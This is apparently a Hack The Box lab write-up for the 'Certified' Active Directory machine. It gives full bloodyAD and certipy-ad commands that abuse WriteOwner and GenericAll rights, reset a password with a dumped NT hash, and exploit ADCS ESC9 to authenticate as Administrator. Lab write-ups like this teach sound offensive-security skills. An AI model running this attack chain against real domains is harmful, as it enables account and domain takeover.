```
Scope:
10.129.231.186

Creds:
judith.mader 
judith09
```
# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -p- --min-rate=5000 -Pn -T5 -vvvv certified.htb

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2026-01-24 17:38:48Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-01-24T17:40:17+00:00; +6h59m48s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Issuer: commonName=certified-DC01-CA/domainComponent=certified
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Issuer: commonName=certified-DC01-CA/domainComponent=certified
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-01-24T17:40:17+00:00; +6h59m48s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Issuer: commonName=certified-DC01-CA/domainComponent=certified
3269/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Issuer: commonName=certified-DC01-CA/domainComponent=certified
|_ssl-date: 2026-01-24T17:40:17+00:00; +6h59m48s from scanner time.
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49693/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49694/tcp open  msrpc         syn-ack Microsoft Windows RPC
49695/tcp open  msrpc         syn-ack Microsoft Windows RPC
49724/tcp open  msrpc         syn-ack Microsoft Windows RPC
49745/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## enum4linux-ng

Using the provided creds I start off by running an enum scan of the target:





As well as no lockout policy:



## nxc

I continued my enumeration using `nxc`:







I quickly spidered the shares and found nothing useful:



## BloodHound

After some thorough enumeration I decided to check out `bloodohund`:





Our user appears to have **WriteOwner** privs over the **MANAGEMENT** group, which will in turn give us access to the *management_svc* user.

# Exploitation
## WriteOwner on group

This could be simply done using `bloodyAD`:

```bash
bloodyAD --host 10.129.231.186 -d certified.htb -u 'judith.mader' -p 'judith09' set owner 'MANAGEMENT' 'judith.mader'
```



## GenericWrite

Next up I had to abuse the **GenericWrite** privs over *management_svc*. In order to do this though I'd have to give myself **GenericAll** privs first over the **MANAGEMENT** group:

```bash
bloodyAD --host 10.129.231.186 -d certified.htb -u 'judith.mader' -p 'judith09' add genericAll 'MANAGEMENT' 'judith.mader'
```



Then add myself to the group:



Finally I was able to add shadowCredentials to the *management_svc* user:



## GenericAll

I can now exploit the **GenericAll** privs over *ca_operator*:



I will be doing this by using the dumped NT hash:

```bash
bloodyAD --host 10.129.231.186 -d certified.htb -u 'management_svc' -p ':a091c1832bcdd4677c28b5a6a1295584' set password 'ca_operator' 'P@ssword123!'
```



# Privilege Escalation
## ADCS - ESC9

Once I took over the *ca_operator* user it was time to check out the certificates:





It turns out that the target is vulnerable to **ESC9**.

In order to exploit this we will be taking the following steps:

```bash
certipy-ad account -u 'management_svc@certified.htb' -hashes a091c1832bcdd4677c28b5a6a1295584  -dc-ip 10.129.231.186 -user 'ca_operator' -upn 'administrator' update
```



Next up the TGT is obtained in order to pass the kerb ticket 

```bash
certipy-ad shadow -u 'management_svc@certified.htb' -hashes a091c1832bcdd4677c28b5a6a1295584 -account 'ca_operator' auto -dc-host dc01.certified.htb
```





We will now be requesting the certificate:

```bash
certipy-ad req -k -dc-ip 10.129.231.186 -target DC01.certified.htb -ca certified-DC01-CA -template CertifiedAuthentication
```



As part of the clean up we reverse the *ca_operator* rights:

```bash
certipy-ad account -u 'management_svc@certified.htb' -hashes a091c1832bcdd4677c28b5a6a1295584  -dc-ip 10.129.231.186 -user 'ca_operator' -upn 'ca_operator' update
```



Lastly we authenticate as the *Administrator*:





### user.txt



### root.txt





---

[^Links]: [[Hack The Box]]